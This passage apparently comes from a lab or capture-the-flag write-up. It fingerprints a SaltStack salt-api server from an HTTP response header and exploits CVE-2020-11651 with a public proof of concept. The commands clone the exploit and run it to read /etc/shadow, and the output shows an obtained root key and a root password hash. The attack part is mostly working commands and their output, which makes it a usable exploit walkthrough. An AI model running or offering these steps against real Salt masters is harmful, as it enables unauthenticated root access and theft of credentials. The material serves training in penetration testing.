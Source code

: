The response included an uncommon header: X-Upstream: salt-api/3000-1:

```
HTTP/1.1 200 OK
Server: nginx/1.16.1
Date: Thu, 04 Sep 2025 20:28:37 GMT
Content-Type: application/json
Content-Length: 43
Connection: keep-alive
Access-Control-Expose-Headers: GET, POST
Vary: Accept-Encoding
Allow: GET, HEAD, POST
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: *
Www-Authenticate: Session
Set-Cookie: session_id=68da2381a866f5e12ebd90ebd0245b61e0b834a7; expires=Fri, 05 Sep 2025 06:28:37 GMT; Path=/
X-Upstream: salt-api/3000-1

{"status": null, "return": "Please log in"}
```

A quick search on google returns this PoC # [CVE-2020-11651](https://github.com/jasperla/CVE-2020-11651-poc) An issue was discovered in SaltStack Salt before 2019.2.4 and 3000 before 3000.2. The salt-master process ClearFuncs class does not properly validate method calls. This allows a remote user to access some methods without authentication. These methods can be used to retrieve user tokens from the salt master and/or run arbitrary commands on salt minions.

Install PoC:

```bash
git clone https://github.com/jasperla/CVE-2020-11651-poc.git
cd CVE-2020-11651-poc
```

Download shadow file:

```bash
python3 exploit.py --master 192.168.111.62 -r /etc/shadow
```

Output:

```
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
/home/kali/share/twiggy/CVE-2020-11651/salt/salt/utils/gitfs.py:149: DeprecationWarning: distutils Version classes are deprecated. Use packaging.version instead.
  GITPYTHON_MINVER = _LooseVersion("0.3")
/home/kali/share/twiggy/CVE-2020-11651/salt/salt/transport/zeromq.py:44: DeprecationWarning: zmq.eventloop.ioloop is deprecated in pyzmq 17. pyzmq now works with default tornado and asyncio eventloops.
  import zmq.eventloop.ioloop
[+] Checking salt-master (192.168.111.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: MM+k7kuD8qK7uY/FCqn+L+gPc6ScqcoJBfVShUUA3KGay3i/woG7skNXpMmON4009lLtSZ9DRlk=
[+] Attemping to read /etc/shadow from 192.168.111.62
root:$6$WT0RuvyM$WIZ6pBFcP7G4pz/jRYY/LBsdyFGIiP3SLl0p32mysET9sBMeNkDXXq52becLp69Q/Uaiu8H0GxQ31XjA8zImo/:18400:0:99999:7:::
bin:*:17834:0:99999:7:::
daemon:*:17834:0:99999:7:::
adm:*:17834:0:99999:7:::
lp:*:17834:0:99999:7:::
sync:*:17834:0:99999:7:::
shutdown:*:17834:0:99999:7:::
halt:*:17834:0:99999:7:::
mail:*:17834:0:99999:7:::
operator:*:17834:0:99999:7:::
games:*:17834:0:99999:7:::
```